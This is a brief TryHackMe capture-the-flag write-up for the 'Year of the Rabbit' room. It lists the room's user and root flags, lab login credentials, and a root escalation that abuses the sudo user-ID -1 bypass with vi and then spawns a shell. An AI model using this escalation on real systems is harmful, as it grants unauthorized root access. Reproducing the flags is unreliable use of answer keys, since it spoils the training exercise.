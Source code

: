 # TryHackMe Web Year of the Rabbit

# Saikat Karmakar | Jan 4:2021

1. What is the user flag?
```
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```
2. What is the root flag?
```
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```

***Notes***

# ftp
user = ftpuser
pass = 5iez1wGXKfPKQ

# ssh //brainfuck decode(https://www.dcode.fr/brainfuck-language)
User: eli
Password: DSpDiM1wAEwid

# other user
user = gwendoline
pass = MniVCQVhQHUNI

# root acces 
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

:!/bin/bash -> in vi get the root shell 